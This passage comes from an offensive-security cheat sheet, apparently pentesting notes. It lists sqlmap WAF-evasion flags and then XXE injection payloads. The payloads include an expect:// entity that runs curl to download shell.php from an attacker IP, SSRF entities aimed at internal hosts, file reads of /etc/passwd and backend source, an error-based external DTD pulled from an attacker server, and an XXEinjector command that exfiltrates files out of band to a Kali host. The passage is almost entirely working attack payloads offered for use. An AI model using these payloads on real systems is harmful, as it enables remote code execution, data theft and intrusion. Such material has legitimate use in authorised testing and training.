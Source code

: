             *   `--chunked`
            *   `--tamper=[TAMPER_SCRIPTS]`
            *   `--random-agent --tor --tor-type=SOCKS5 --check-tor`

### XXE Injection

*   Enumeration
    *   XML / JSON Requests & Conversions
    *   [Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md) / [Obfuscations](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#waf-bypasses) / [Payloads](https://github.com/payloadbox/xxe-injection-payload-list)
    *   XML Header    → `<?xml version="1.0" encoding="utf-8" standalone="yes"?>`
    *   Content Type  → `Content-Type: application/xml`
*   RCE
    *   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "expect://[CMD]"> %xxe; ]>`
    *   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'"> %xxe; ]>`
*   SSRF
    *   `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "[INTERNAL_HOST]"> ]>`
    *   Access Internal Servers
    *   Bypass Restrictions
    *   [Exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
*   LFI
    *   Standard
        *   `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://[FILE_OR_DIR]"> ]>`
    *   Filter Wrapper
        *   `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=[BACKEND_FILE]"> ]>`
    *   XInclude
        *   `<foo xmlns:xi="http://www.w3.org/2001/XInclude">`
        *   `<xi:include parse="text" href="file:///etc/passwd"/></foo>`
    *   CDATA
        *   `echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd`
        *   [Backend / Local File Read](https://academy.hackthebox.com/module/134/section/1206)
    *   Error-Based
        *   [Local](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#error-based---using-local-dtd-file) / [Remote](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#error-based---using-remote-dtd)
        *   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "[YOUR_SERVER]/evil.dtd"> %xxe; %err; ]>`
        *   \----evil.dtd-----
        *   `<!ENTITY % file SYSTEM "file://[FILE]">`
        *   `<!ENTITY % err "<!ENTITY content SYSTEM '%idontexist;/%file;'>">`
        *   \-----------------
    *   [OOB](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
        *   [XXEInjector](https://github.com/enjoiz/XXEinjector)
        *   Place `XXEINJECT` after XML Header → Copy Raw Request
        *   `ruby XXEinjector.rb --host=[KALI_IP] --httpport=8000 --file=[XXE_REQUEST] --path=[FILE_TO_READ] --oob=http --phpfilter`

### SSPP Injection
